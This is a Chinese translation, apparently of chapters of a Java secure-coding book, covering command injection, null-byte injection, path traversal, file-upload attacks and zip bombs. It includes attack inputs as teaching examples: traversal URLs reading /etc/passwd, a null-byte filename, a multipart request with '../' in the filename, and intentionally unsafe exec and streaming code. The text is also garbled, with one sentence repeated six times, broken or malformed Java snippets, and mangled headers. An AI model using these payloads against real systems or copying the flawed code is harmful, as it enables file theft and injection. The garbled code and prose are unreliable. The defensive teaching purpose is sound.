通常，`XML/JSON` 解析发生在 Web 或 Web 服务应用程序的多个层级。各种技术消耗或交付 `XML/JSON`。而且交付和接收的 `XML/JSON` 部分可能包含不可信数据。这可能导致服务端 XML 注入，或来自不可信 JSON 的浏览器跨站脚本。

`XML/JSON` 需要在 Web 应用程序多个位置清理或使用安全的解析器进行：

- 当浏览器解析不可信 JSON 时，应在 JavaScript 中使用安全的解析器，如 `JSON.parse`。
- 当 Web 服务接收不可信 XML 时，应应用 XML Schema 以确保正确的 XML 结构。XML Schema Definition (`XSD`) 允许你对 XML 文档中包含的元素、属性和数据类型进行详细定义。
- 当不可信的 `XML/JSON` 提交给用户或其他服务时（不可信的 `XML/JSON` 以某种方式离开 Web 服务），输出需要符合正确的格式。验证、编码和输出清理是必要的。
- 当 XML 查询语言（`XPath`, `XQuery`）请求与不可信数据混合时，查询参数化或编码是必要的。

安全编码的这一宗旨同样适用。每当你组装某种基于文本的命令（OS、SQL、XML 等）并将其与用户或不可信数据混合时，就需要类似的特殊防御来避免注入或类似的攻击。

## 命令注入

有时，基于 Java 的 Web 和 Web 服务应用程序需要从应用程序代码直接调用服务器操作系统的命令。尽管这是一种非常危险的尝试，但它确实发生了，并且

## 196 铁甲版 Java：构建安全的 Web 应用程序

为了完成重要的业务任务，需要对直接操作系统调用进行安全处理。

例如，我们曾被赋予构建一个高性能图像处理 Web 应用程序的任务。该应用程序不仅需要实现极大的扩展性，还必须能够在极短时间内处理大型图像。即使在极其强大的硬件上，Java 的 2D 映像 API 在处理中等尺寸图像时也非常缓慢。我们的解决方案是直接从操作系统调用开源的 `ImageMagick` 图像处理库。

```java
// 毫无疑问，从安全角度来看，这是一个非常危险的函数。

// Tries to check the OS level ImageMagick

// command, and waits for it to finish.

// 如果退出状态不为零则记录错误

// 如果退出状态为 0（成功）则返回 true。

private final boolean getImageMagickCommand(String[] command) {

    log.debug(command) + " called via execImageMagickCommand(");

    Process proc;

    try {

        log.debug("Trying to execute command " +

            Arrays.asList(command));

        proc = Runtime.getRuntime().exec(command);

    } catch (IOException e) {

        log.debug("IOException while executing " + command);

        return false;

    }

    // 为了省略删除了计时代码

    return (exitStatus == 0);

}
```

调用此函数的函数通过（你猜得到的）拼接来构建 `ImageMagick` 命令：

```java
// 使用 Runtime.exec() 调用 imagemagick 执行给定的
```


// 转换操作。成功时返回 `true`，失败时返回 `false`。

// 不检查任何文件是否存在。

// `@param inFile` 源图像

// `@param fileOut` 转换后的图像

// `@param width` 图像宽度

// `@param height` 图像高度

```java
private boolean convert(
    String inFile, String fileOut, int width, int height) {
    String subFrame = "";
```

```java
String extension = fileIn.substring(fileIn.lastIndexOf("."));

if (".ai".equalsIgnoreCase(extension) || ".gif".equalsIgnoreCase(extension)) {
    subFrame = "[0]";
}

// 如果我们正在使用子帧格式，如：filename[0]
if (!".equals(subFrame)) {
    fileIn = fileIn + subFrame;
}
```

```java
boolean isPDF = false;

if (".pdf".equalsIgnoreCase(extension)) {
    isPDF = true;
}
```

```java
// 构建实际系统命令
ArrayList command = new ArrayList(9);

command.add(CONVERT_PROG);

if (isPDF) command.add(fileIn);

command.add("-flatten");
command.add("-colorspace");
command.add("-rgb");
command.add("-resize");
command.add("-width " + "x" + height + ">");

if (isPDF) command.add(fileIn);

command.add(fileOut);
```

```java
// 执行 ImageMagick 系统命令
String[] finalCommand =
    (String[]) command.toArray(new String[1]);

return executeImageMagickCommand(finalCommand);
}
```

如果 `convert` 方法的任何参数被污染，这可能导致恶意系统命令直接在操作系统上运行。我们当时的解决方案是对输入输入进行严格的输入验证，但令人惊讶的是，从未没有任何漏洞漏过我们的检查。这可能证明了我们的系统并没有被广泛使用，尽管它具有类似的功能，但并没有像 Flickr 那样大火。无论如何，在这种情况下，我们是幸运，而不是聪明。

# 第 7 章：SQL 注入和其他注入攻击

## 输入中的危险字符

任何类型的基于字符串的命令解释器都可以被注入。LDAP、操作系统、文件 I/O、HTML、XML 或 JSON 解析器、数据库查询等，当不可信数据与不可信数据混合时，都会被注入。遗憾的是，开发者经常留下一些没有良好 API 来帮助防御的注入形式。在这些情况下，开发者必须理解她计划使用的软件的规范，并对规范中保留的任何字符对不可信输入进行转义。例如，当 LDAP 解析器解释时，`*`、`<`、`>`、`/` 等字符都被视为“代码”而非“用户数据”。适当转义和输入验证对于确保系统不会将不可信的用户数据与保留字符混淆至关重要。

对于命令注入，适当的防御取决于操作系统。然而，CRLF、CR、LF、null、`;` 等字符在之前讨论的命令注入上下文中可能会危害。

另一个例子是 Java 空字节注入漏洞。Java 曾有很一段时间存在一个糟糕的 Bug，允许用户传递 `<null>` 字节来终止字符串，这产生了有趣的结果。以下空字节攻击被用于绕过通过检查文件扩展名匹配 `"html"` 来限制用户输入为 HTML 文件的保护。然而，随后的空字节注入攻击允许攻击者窃取其他敏感数据。

- 假设你是一个 Web 应用程序，你正在从你的 Web 服务器接收此
- 输入，哎。如果你检查文件名
- 是否以 `.html` 结尾，你可能会假设正在访问的是一个 html
- 文档。相反，这将转储
- `/etc/passwd` 文件！

```java
String txt = Start.readFile("/etc/passwd\0.html");
```

这个漏洞已经修复了很长时间，而且当然，你一直在为你所有的 Java 应用程序更新 JVM，对吧？

> [Java Null Byte Injections, 2007年12月, Arshan Dabirliaghin http://i8jesus.com/?p=9]

## 修复清单

为了防止 SQL 注入，请使用以下技术：

- 对所有查询和所有变量使用查询参数化（最重要的）。
- 当无法进行查询参数化时，采用白名单输入验证。
- 限制数据库连接访问（最小权限原则）。
- 手动转义所有输入（最后手段）。

## 总结

如你所见，注入是你的应用程序必须面对的最危险风险之一。每当你构建一个包含不可信输入的基于字符串的命令时，注入都是可能的。在考虑各种类型的注入时，SQL 注入可能是最常见且最危险的。输入验证、查询参数化、限制数据库权限以及作为最后手段的转义单个变量等多样化技术将引导你构建抗注入的应用程序。


# 第 8 章：安全文件上传与 I/O

## 文件输入和输出

# 222 铁甲版 Java：构建安全的 Web 应用程序文件文件

文件输入和输出（I/O）指在应用程序运行期间读取、写入或其他管理文件的过程。所有的文件 I/O 都需要特殊的安全处理才能安全使用。在本章中，我们描述了你可以应用于你自己的应用程序的各种技术，以减少被利用的风险。

## 反模式与设计缺陷

在应用程序中处理文件可能会引发许多漏洞，这些漏洞在显示来自其他源的数据时不会遇到。以下是为了安全处理文件而应该避免的设计缺陷。

### 设计缺陷 1：文件路径注入

在本节中，我们讨论了文件路径注入的经典安全设计，也称为路径遍历（path traversal）。路径遍历攻击的目标是获取本不应访问的资源。经典定义涉及读取 Web 应用程序文件夹之外的资源，但正如我们将展示的那样，读取或写入 Web 应用程序内部或外部的文件实际上可能同样危险。

文件路径注入漏洞的关键指标是应用程序接受 `../` 作为 URL 或文件名参数的一部分。例如，假设你有一个允许用户下载文件的 servlet。它接受文件名作为参数，并如下所示将文件流传输给用户：

```text
http://www.awesomefileupload.com/downloadFile?filename=path/to/my_vacation_photos.zip
```

如果攻击者用他/她自己的字符串代替了指向合法文件的路径，会发生什么？

```text
http://www.awesomefileupload.com/downloadFile?filename=path/to/../../../../etc/passwd
```

如果你没有对文件名进行适当验证，攻击者可能会得到如下的响应：

# 第 8 章：安全的文件上传与文件 I/O 203

```http
HTTP/1.1 200 OK

Server: Apache-Coyote/1.1

Content-Type: text/html

Content-Length: 1252

Date: Tue, 10 Mar 2014 15:07:03 GMT

root:x:0:root:/root:/bin/bash

bin:x:1:bin:/bin:/sbin/nologin

daemon:x:2:daemon:/sbin:/sbin/nologin

adm:x:3:adm:/var/adm:/sbin/nologin

lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin

sync:x:5:sync:/bin:/sbin/sync

shutdown:x:6:0:shutdown:/sbin:/shutdown

[etc]
```

如果你的服务器以 root 用户身份运行，那么从你的服务器中泄出的数据几乎没有限制。包含服务器密码哈希值的 `/etc/shadow` 文件、包含数据库凭据的 `context.xml` 文件，或用于 SSL 私钥的密钥库文件，都只是攻击者想要得到的内容的一部分。

防御文件路径注入的关键在于先对任何文件路径进行正确的规范化（canonicalize），然后进行验证：

```java
File file = new File(input);

String canonicalPath = file.getCanonicalPath(); // 规范化

// 验证
if (!canonicalPath.startsWith("/my/allowed/path")) {
    // 拒绝输入
}
```

## 设计缺陷 2：空字节注入（Null Byte Injection）

当不可信的数据以某种方式污染了文件 I/O 操作时，就会发生空字节注入，允许攻击者绕过文件名输入的验证。许多 Java 操作实际上是对原生 C++ 函数的封装。C++ 将空字节解释为“停止处理此字符串”的控制字符。因此，当过时的 Java 运行时环境（JRE）在文件路径操作中接收到空字节（`%00`）时，验证可能会失败：

```java
// 假设
// request.getParameter('filename').equals("../etc/passwd%00.jpg")

String xmlFileName = request.getParameter("filename");

if (fileName.endsWith(".xml")) {
```

# 204 铁甲之躯 Java：构建安全的 Web 应用

```java
File xmlFile = new File(fileName);

// 将文件流到用户
streamFile(xmlFile);
```

如果你使用的 Java 版本容易受到空字节注入的影响，那么以下攻击可以绕过前面的代码：

`http://www.site.com/files/filename=...../../etc/passwd%00profile.jpg`

对 `String.endsWith()` 函数的调用成功了，是因为 `endsWith` 检查输入字符串中倒数第四个字符的匹配，并且在从未遇到空字节的情况下返回了 true。`new File()` 从头开始处理输入字符串，但在空字节处结束，留下了指向 `/etc/passwd` 文件的路径！

幸运的是，此漏洞在 Java SE 7 Update 40 和 Java SE 8 系列中通过在许多文件操作中显式检查空字节的存在得到了修复。从技术上讲，规范允许在文件规格中传递 null。但并不是所有的 Java 版本都打了补丁。Java 规范没有被更改，更改的是 Oracle 的实现。以下代码示例是修复此问题的 JRE 补丁的一部分：

```java
final boolean isInvalid() {
    if (status == null) {
        status = (this.path.indexOf('\u000') < 0)
            ? PathStatus.CHECKED
            : PathStatus.INVALID;
    }

    return status == PathStatus.INVALID;
}
```

尽管在更新后的 JVM 中不再需要防御空字节注入，但对输入中检测并防御空字节仍然是强效深度防御（defense-in-depth）的重要方面。作为一种入侵检测防御的形式，这也很有趣，因为许多扫描器都会尝试空字节攻击。

### 设计缺陷 3：未正确关闭资源

正确关闭文件句柄以防止拒绝服务（DoS）非常重要。在我们职业生涯早期，我们为一家大公司的一个部门创建了一个文件共享内网网站。我们当时不知道它会变得多么受欢迎 http://bugs.java.com/bugdatabase/view_bug.do?bug_id=8014846

# 第 8 章：安全的文件上传与文件 I/O 205

在它被全球超过 20,000 名用户在白天夜夜任何时候使用之前！一切看起来运行良好，但网站时不时会直接挂起并需要重启（通常在半夜）。经过一些调查，我们发现应用程序没有正确关闭文件句柄。一段时间后，应用程序就会耗尽文件句柄并挂起。以下是一个错误做法的示例：

```java
// 将文件保存到文件系统
// 警告：危险代码！

try {
    fileIn = getUploadInputStream();
    fileOut = new FileOutputStream(validatedFilePath);

    byte[] buffer = new byte[bufferSize];
    int byteCount = 0;

    while ((byteCount = fileIn.read(buffer)) >= 0) {
        // 如果这里发生异常会怎样？
        fileOut.write(buffer, byteCount);
    }

    // 关闭输出流以释放内存资源！
    fileIn.close();
    fileOut.close();
} catch (IOException ioe) {
    // 以某种方式处理异常
}
```

问题在于文件 I/O 操作可能会抛出异常。如果在此任何地方发生了异常，文件句柄就不会被关闭。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。为了修复这个问题，你需要确保在无论结果如何都在 try 块之外执行调用。

```java
InputStream fileIn;
OutputStream fileOut;
```

另一个问题是，即使是 `close()` 本身也会抛出异常！如果 `fileIn.close()` 失败，`fileOut()` 就不会被调用。为了修复这个问题，你需要使用独立的方法来捕获可能出现的异常：

```java
public static void closeStream(Closeable s) {
    try {
        if (s != null) s.close();
    } catch (IOException ioe) {
        // 处理异常 - 标记管理员审核
    }
}
```

幸运的是，Java 意识到了这种构造是拙劣的，Java 7 引入了 `try-with-resources` 语句。现在你可以在 try 块结束时声明需要关闭的资源，并且无论结果如何都会被关闭：

```java
try {
    InputStream fileIn = getUploadInputStream(); // 资源
    OutputStream fileOut = new FileOutputStream(validatedFilePath);
}
{
    byte[] buffer = new byte[bufferSize];
    int byteCount = 0;
}
```

# 206 铁甲之躯 Java：构建安全的 Web 应用

```java
try {
    fileIn = getUploadInputStream();
    fileOut = new FileOutputStream(validatedFilePath);

    byte[] buffer = new byte[bufferSize];
    int byteCount = 0;

    while ((byteCount = fileIn.read(buffer)) >= 0) {
        // 如果这里发生异常会怎样？
        output.write(buffer, byteCount);
    }
} catch (IOException ioe) {
    // 以某种方式处理异常
} finally {
    // 关闭输出流以释放内存资源
    fileIn.close();
    fileOut.close();
}
```

如果你的项目正在利用 Java 7 的所有功能，那么你完全应该使用 `try-with-resources` 语句。如果与早期 Java 版本的向下兼容是一个问题，那么请确保在 `finally` 块中关闭所有的流，使用独立的方法来捕获 `close()` 调用可能抛出的异常。

# 第 8 章：安全的文件上传与文件 I/O 207

```java
while ((byteCount = fileIn.read(buffer)) >= 0) {
    output.write(buffer, 0, byteCount);
}
catch (IOException ioe) {
    // 以某种方式处理异常
}
```


如果你的项目正在利用 Java 7 的所有功能，那么你完全应该使用`try-with-resources`语句。如果与早期 Java 版本的向下兼容是一个问题，那么请确保在`finally`块中关闭所有的流，使用独立的方法来捕获`close()`调用可能抛出的异常。

# 文件 I/O 总结

文件操作本质上是敏感的。避免使用用户驱动或其他不可信的数据来构建文件 I/O 操作的动态路径。确保所有 URL 路径都有适当的访问控制。

## 文件上传安全

开源库如 Apache Commons FileUpload 被在服务器端提供多表单提交，这是文件上传机制的核心。构建安全的文件上传机制需要多层防御。应用程序代码、数据库和文件系统都需要性能、存储和安全设计考虑。你需要验证文件名是安全的，使用对象引用映射将文件安全地保存在 Web 服务器上，验证文件上传的内容是安全的，并管理配额！

## 攻击模式

攻击者可以用多种方式滥用文件上传功能。以下章节介绍了攻击者滥用你网站文件上传功能的几种方式。

> ² http://commons.apache.org/proper/commons-fileupload/

## 攻击 1：上传危险内容

当你允许用户向你的系统上传文件时，你就让自己暴露在受到攻击的风险之中。你必须假设，迟早会有某种类型的危险文件被上传到你的服务器，这可能是因为恶意攻击者、病毒，或者是合法用户系统上的其他恶意软件。以下是可能被上传的某些危险文件类型：

- 可能会感染你用户的病毒和其他恶意软件。
- 包含 XSS 或 CSR 攻击的 HTML 文件。
- 可执行代码，例如 JSP 文件或 WAR 文件。
- 在使用多种技术的环境中，即使是 PHP 或 ASP 文件也可能是危险的。

## 验证文件扩展名

你的第一步应该是执行基于白白的输入验证，以确保只允许某些文件扩展名。一旦确定了文件扩展名，你就可以采取额外的操作来接受、拒绝或验证文件内容，如表 8-1 所示。带有`.htm`或`.html`扩展名的文件在你尝试下载时可能会被浏览器自动渲染。这些文件中包含的任何 JavaScript 将在与网站相同的域下运行，完全绕过浏览器的同源策略，为攻击者提供了存储型 XSS 的完美向量。同样，这些文件中的 CSS 可以覆盖你网站的样式，并成为破坏你网站的手段。`.jsp`、`.jspx`或`.war`等扩展名表示服务器将尝试直接执行。这些应该被明确禁止，任何尝试上传此类文件的都应记录告警以供你的安全部门进行审计。

如果由于某些原因，你必须支持像`.jsp`或`.war`这样的危险文件类型（例如如果你正在创建一个开发者门户），它们应该存储在完全独立的域名上，并由一个不是 Java 应用服务器的独立 Web 服务器提供。例如，如果你的主 Web 应用运行在`www.mycompany.com`的 Tomcat 上，你的文件上传可以存储并从`www.mycompanyfiles.net`上的纯 Apache 服务器提供服务。

# 第 8 章：安全文件上传与文件 I/O

| 文件扩展名 | 动作 |
|---|---|
| `.htm`, `.html` | 拒绝。HTML 文件可能包含 JavaScript 或危险的标记。 |
| `.js` | 拒绝。你真的想允许用户直接上传 JavaScript 吗？ |
| `.jsp`, `.jspx` | 拒绝。这些文件中包含的任何 Java 代码都将被执行。 |
| `.war` | 拒绝。这可能会在你的服务器上部署整个应用程序！ |
| `.jpg`, `.gif`, `.png` 等 | 使用如 ImageMagick 等库验证图像文件（见“验证文件内容”）。 |
| `.zip` | 在解压前进行验证（“处理 Zip, Rar 和其他存档格式”）。 |
| `.doc`, `.ppt`, `.txt` 等 | 大多数情况下接受是安全的。始终对上传的文件进行病毒和恶意软件扫描，并检查它们是否超过配额。 |

**表 8-1.** 文件类型与验证动作

## 病毒和恶意软件检测

文件上传机制更具挑战性的方面之一是确保文件内容不是恶意的。对上传的文件进行简单的杀毒检查是一个良好的第一步。

没有单一的完美杀毒或反恶意软件解决方案，不同的杀毒产品在发现某些类恶意软件方面比其他产品更好。在验证上传的文件是否具有恶意时，使用多个产品是稳妥的。如果你向其他用户提供用户上传的文件，这一点变得尤为真实。你不希望因为一个坏用户就对你的整个用户群变成恶意软件！

我们建议在文件上传时，立即将其放入隔离目录，并在其中进行恶意软件检查。只有当杀毒检查成功后，你才应该让其他用户下载该文件。

# 铁甲：构建安全的 Web 应用程序

## 验证文件内容

另一个重要步骤是验证文件内容实际上与声称的文件类型匹配。例如，你可以通过图像重写技术验证扩展名为`.jpg`的上传文件是否确实是有效的图像。在图像重写中，你通过 ImageMagick 等库处理上传的图像文件。ImageMagick 包含了以各种方式调整大小、编辑或转换图像的函数。当它尝试加载图像时，如果文件不是正确的格式，ImageMagick 通常会加载操作失败。如果成功无误地加载了不可信的文件，则文件内容很可能是有效的图像。为了确保起见，使用 ImageMagick 以某种方式修改图像（例如按比例缩小 1 像素），并将其保存到新文件中。丢弃原始上传的文件，只保留由 ImageMagick 处理过的图像。如果图像最终被 ImageMagick 加载、修改并重新保存，那么它可能是一个安全的图像文件。ImageMagick 还可以用于你网站上的其他功能，例如缩放到缩略图或读取/写入 EXIF 数据以匿名化图像或添加版权声明。

注意：

在使用包含用户驱动的不可信文件名的 OS 命令调用 ImageMagick 或另一个操作系统层面的图像处理库时要小心。当不可信数据驱动操作系统命令时，可能会导致命令注入，如第 7 章所述。

## 攻击 2：覆盖其他文件的能力

我们已经讨论了如何利用文件路径注入来读取不应被访问的文件。文件上传功能也可以被文件路径注入滥用于写入文件。例如，假设你有一个如下标准的文件上传 servlet：

```java
import org.apache.commons.fileupload.disk.DiskFileItem;

protected void processRequest(
```

> 3 ImageMagick 是一个用于创建、编辑或组合图像的软件套件。更多信息，请访问`www.imagemagick.org/`

# 第 8 章：安全文件上传与文件 I/O

```java
HttpServletRequest request, HttpServletResponse response)

throws ServletException, IOException {

    try {

        Map<String, FileItem> params = parseMultipart(request);

        // get the file

        FileItem file = (DiskFileItem)params.get("file");

        // get the name

        String filename = file.getName();

        // get the root

        String rootPath = getServletContext().getRealPath("");

```

在正常操作下，浏览器发送如下多表单：

```http
POST /Upload HTTP/1.1

Host: localhost

Connection: keep-alive

Content-Type: multipart/form-data; boundary=----------------WebKitBoundary7

----------------WebKitBoundary7

Content-Disposition: form-data; name="file"; filename="logo.jpg"

Content-Type: image/jpeg

[image data]

----------------WebKitBoundary7--
```

## Iron甲：构建安全的 Web 应用程序

```http
POST /Upload HTTP/1.1

Host: localhost

Connection: close

Content-Type: multipart/form-data; boundary=----------------WebKitBoundary7

----------------WebKitBoundary7

Content-Disposition: form-data; name="file"; filename="../logo.jpg"

Content-Type: image/jpeg

[image data]

----------------WebKitBoundary7--
```

## 第 8 章：安全文件上传与文件 I/O

现在有人想破坏你的网站。通过使用带有不可信文件名的拦截代理，攻击者可以利用输出流的创建方式，导致恶意的、可能损害的 logo 覆盖你自己的：

FIGURE 8-1. 文件上传成功

可以利用输出流的创建方式，导致恶意的、可能损害的 logo 覆盖你自己的：

```text
8-2. File/logo.jpg
```

正如图 8-2 所示，你的 logo 会被攻击者想要的任何内容覆盖！

如下所示：

当应用程序处理它时，它将使用输入数据创建如下路径：

```text
/application/server/web/downloads/private/../img/logo.jpg
```

Java 会遵循文件名参数中的`..`字符，并求出以下绝对路径：

```text
/application/server/web/img/logo.jpg
```

如之前所述，防止这种情况的方法是对你文件上传应用程序的所有文件名进行正确的规范化和验证。OWASP Java File I/O 项目包含了验证文件名是否有效的函数。以下示例展示了如何使用该库正确验证上传的文件：

```java
//创建一个新的 FileValidator
FileValidator validator = new FileValidator();

//设置一些默认验证参数
validator.setMaxFileSize(MAX_UPLOAD_SIZE);
validator.setAllowedExtensions(
  Arrays.asList("jpg", "jpeg", "png"));
validator.setAllowNulls(false);

//调用 isValidFileUpload 来验证输入
if (!validator.isValidOutputDirectory(context, filename,
rootDirectory, fileBytes, validationExceptions)) {
    // 拒绝输入
}
```

## 214 铁甲 Java：构建安全的 Web 应用程序



图 8-2. 使用攻击者提供的内容覆盖应用程序文件

`isValidFileUpload`的参数如下：

| 参数 | 说明 |
|---|---|
| `context` | 如果验证失败，用于创建异常消息的标签 |
| `fileOutputDirectory` | 保存文件的目录 |
| `fileName` | 用户请求中的原始文件名，或应用程序为文件选择的 |
| `rootDirectory` | 保存文件的目录结构的根路径 |
| `fileBytes` | 文件的实际字节内容 |
| `validationExceptions` | 存储在验证过程中生成的任何异常的列表 |

## 第 8 章：安全文件上传与文件 I/O

此外，遵循**最小权限原则**并确保任何实际上属于您的应用程序的文件对 Web 服务器都是不可写的，这将是明智的。然而，在某些情况下这可能很困难，特别是当你使用服务器的内置功能通过解压上传的`war`文件来部署新代码时。对于生产实例，我们建议你手动部署代码，而且当然，永远不要以`root`用户身份运行服务器。

## 攻击 3：配额过载 DoS

在允许用户上传文件时，必须设置每个用户的上传配额以确保对您的存储进行适当管理。如果不实施限制，恶意用户可能会上传数 TB 的文件并消耗您设备上的所有存储，导致拒绝服务。在构建配额策略时，有几点需要考虑。首先，为每个用户设置最大总存储配额。其次，限制单个文件的大小，以防止攻击者通过传递将消耗大量内存或处理器周期才能验证的文件来滥用文件验证机制。最后，限制用户可以上传的文件总数，以避免降低服务器文件系统的速度（以及他们创建的数据库行数）。

Apache Commons FileUpload 库具有限制上传文件大小的内置机制，但默认情况下它没有限制。我们强烈建议你在每次执行文件上传操作时都配置限制：

```java
// 创建一个基于磁盘的文件项的工厂
DiskFileFactory factory = new DiskFileFactory();

// 在将上传的文件写入磁盘之前，
// 设置使用的最大内存
factory.setSizeThreshold(yourMaxMemorySize);

// 创建一个新的文件上传处理程序
ServletFileUpload upload = new ServletFileUpload(factory);

// 设置整体文件大小限制
upload.setFileSizeMax(yourMaxFileSize);

// 设置整体请求大小限制
upload.setSizeMax(yourMaxRequestSize);
```

## 216 铁甲 Java：构建安全的 Web 应用程序

不仅要设置最大文件大小，还要设置整个请求的最大大小。考虑一下，如果对手确定你的最大文件大小为 1MB，然后继续向你发送几个并发请求，每个请求包含数千个 1MB 的字节文件会发生什么。你的应用程序将解析请求中的每个文件，迅速填充内存或磁盘空间，并可能在整个请求解析完成之前导致你的服务器崩溃。

## 处理 Zip、Rar 和其他存档格式

在年前构建一个图像上传功能时，客户端经常需要同时为特定主题上传几十张图片。这在今天无处不在的拖放文件上传系统出现很久之前。相反，客户端希望能够上传一个包含大量图片的 zip 文件。我们网站的早期版本会接受 zip 文件，递归地遍历包中的每个文件夹，将内容解压到目录，并对每张图片的文件大小和其他安全考虑进行验证。这是一个巨大的错误。

**zip 炸弹**是一种恶意的 zip 或或其他存档文件格式，压缩后体积很小，但解压缩后体积巨大。一个著名的 zip 炸弹是`42.zip`。它的大小只有 42 KB，但如果解压所有文件和文件夹，解压后的大小将超过 4 PB！尝试解压此类文件会迅速消耗服务器上所有可用磁盘空间（更糟糕的是是内存），导致你遭受拒绝服务。



> 提示

> 在执行实际解压操作之前，确保存档文件的解压缩大小不超过用户可用的配额。

大多数 zip 或或其他 API 允许你在执行实际解压操作之前检查总解压缩大小。在`java.util.zip.ZipFile`中，通过遍历每个`ZipEntry`并添加`getSize()`方法的结果来实现的：

```java
ZipFile zipFile = new ZipFile("testzip.zip");
long totalUncompressedSize = 0;
Enumeration<? extends ZipEntry> e = zipFile.entries();
```

```java
while (e.hasMoreElements()) {
  ZipEntry ze = e.nextElement();
  long uncompressedSize = ze.getSize();
  totalUncompressedSize += uncompressedSize;
}
```

每个条目的解压缩大小是通过原生方法获取的，该方法从 zip 文件本身读取每个条目的元数据。理论上，恶意者可以修改 zip 文件以少报告每个条目的解压缩大小。强力的防御控制不仅应该在解压之前检查报告的大小，还应该检查每个文件的实际解压缩大小是否匹配。

## 正向模式：对象引用映射与存储上传的文件

另一个实用的预防措施是不要使用实际文件名来存储上传的文件。相反，使用存储在数据库中的机器生成名称，以及原始文件名。当你为用户创建下载链接时，应该只显示数据库密钥：`https://mycompanyfiles.net/download/file/80862`

在确认用户对文件已授权后，你可以流传输文件并在响应头中设置原始文件名：

```java
response.addHeader("content-disposition", "attachment; filename=" + java.net.URLEncoder.encode(originalFilename, "UTF-8"));
```

通过这种方式，文件名和路径永远不会暴露给用户，也没有操纵路径的机会。

> ⁷ 根据 Zip 规范，存档中的每个文件中存储 4 字节：`www.pkware.com/documents/casestudies/APPNOTE.TXT`

> ⁸ 关于如何安全地从 zip 提取文件的绝佳示例，请参见`secercoding.cert.org/confluence/display/java/IDS04-1.Safe+extract+files+from+ZipInputStream`

## 总结

任何允许用户上传文件时都需要采取预防措施以确保文件对你的应用程序或用户是安全的。以下是你在应用程序中安全上传文件的步骤：

1. 确保 Web 应用程序的文件对应用程序用户不可写。
2. 为文件上传功能建立身份验证和授权。
3. 验证文件名：
   - 使用输入验证确保上传的文件使用预期的扩展类型。


- 拒绝包含路径（`/` 或 `\`）或目录引用（`..`）的文件名。

4. 确保配额限制。

5. 验证文件内容：

   - 确保检测到的内容类型在定义的图像类型列表内（`JPG`、`PNG` 等）。

   - 通过检查文件头验证上传的文件是否为预期的类型。

6. 使用服务器生成的文件将文件保存到不可访问的目录中，尽可能位于主应用程序完全不同的域名上。

根据图像处理检测到的图像内容类型为存储的图像设置有效的图像扩展名（不要仅仅信任上传的文件头）。

## 第 8 章：安全文件上传与文件 I/O 219

- 3. 验证用户是否有下载文件的权限。

- 4. 在 `Content-Disposition` 头部中对实际文件名进行适当编码。

- 5. 确保文件以正确的 `content-type` 传输（例如，`image/jpeg`，`application/x-xinstall`）。

- 6. 将文件流化给用户。

## 资源

- John Melton, 恶意文件执行：`www.jmelton.com/2010/05/02/the-owasp-top-ten-and-esapi-part-4-malicious-file-execution/`

- Mozilla WebAppSec/安全编码准则：`https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines#Uploads`

- OWASP 安全编码实践快速参考指南：`https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide`

- SANS Institute，实现安全文件上传的 8 条基本规则：`http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads/`


# 第 9 章

# 日志、错误处理与入侵检测

222 铁甲 Java：构建安全的 Web 应用

什么东西单独或成对地下楼梯，还会跳过你邻居的狗？

什么东西很适合当零食，还能放在背上？它是日志（`log`）、日志、日志！

它是日志，它是日志，它很大，很重，它是木头。

它是日志，它是日志，它比坏好，很好。

——《瑞与辛比》

## 日志基础

日志是软件中所有追溯性的核心。我们在开发中使用日志来帮助测试应用程序，并在生产环境中记录日志以便审计应用程序的运行行为。日志对于安全取证也至关重要，这样我们就能在坏事发生后了解发生了什么。MITRE 公司管理着常见弱点枚举（CWE），这是一个由社区开发的软件漏洞字典。日志记录不足的常见软件弱点列表是 CWE-778 (`http://cwe.mitre.org/data/definitions/778.html`)：

当安全关键事件未被正确记录时（例如失败的登录尝试），这将使得恶意行为更难以检测，并可能在攻击成功后阻碍取证分析。

这非常清楚。当发生安全泄露时，你想要做的的第一件事之一就是提取日志并调查发生了什么。安全软件中日志的任务是让调查人员能够尽可能容易地回答这些问题：

- 发生了什么？

- 谁干的？

- 什么时候发生的？

- 我们的安全性是如何被绕过的？

- 查看或修改了哪些数据？

- 我们如何防止这种情况再次发生？

## 第 9 章：日志、错误处理与入侵检测 223

## 应该记录什么

首先，开发者应该记录什么？如果你在一个高访问的 Web 应用程序上记录过多，磁盘将会满，性能可能会受到影响。更糟糕的是，这会导致发生泄露时更难找到真正有意义的数据。你需要记录有意义的内容。

许多开发者已经意识到需要记录时间戳、严重级别（警告、错误、致命等）、正在请求的功能以及应用程序的状态。为了审计和可追溯性目的，你还需要记录用户名、IP 地址以及某种将特定会话（`session`）的所有日志条目关联起来的方法（除非应用程序一次只被一个人访问——如果是那样，我们何必在讨论这个话题？）。此外，事务 ID 或活动 ID 会很有帮助（例如，`ADD_USER`、`ASSIGN_PERMISSION`、`READ_FILE` 等）。这提供了比单用会话信息更细致的细粒度，有助于将用户在特定会话中的活动与站点功能关联起来。

